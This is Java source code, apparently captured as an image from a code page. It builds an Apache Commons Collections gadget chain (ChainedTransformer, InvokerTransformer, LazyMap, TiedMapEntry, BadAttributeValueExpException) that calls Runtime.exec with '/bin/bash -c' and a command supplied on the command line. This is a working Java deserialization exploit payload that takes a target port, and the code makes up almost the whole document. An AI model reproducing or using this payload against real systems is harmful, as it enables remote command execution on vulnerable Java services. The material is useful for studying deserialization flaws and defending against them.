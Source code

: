 ```java
        int             port        = Integer.parseInt( argv[1] );
        String          cmd         = argv[2];
        Transformer[]   tarray      = new Transformer[]
        {
            new ConstantTransformer( Runtime.class ),
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        Transformer     tchain      = new ChainedTransformer( tarray );
        Map             normalMap   = new HashMap();
        Map             lazyMap     = LazyMap.decorate( normalMap, tchain );
        TiedMapEntry    tme         = new TiedMapEntry( lazyMap, null );
        BadAttributeValueExpException
                        bave        = new BadAttributeValueExpException( null );
        Field           f           = bave.getClass().getDeclaredField( "val" );
        f.setAccessible( true );
        f.set( bave, tme );
        /*
         * 前面在准备待序列化数据，后面是一种另类的序列化过程
         */
```
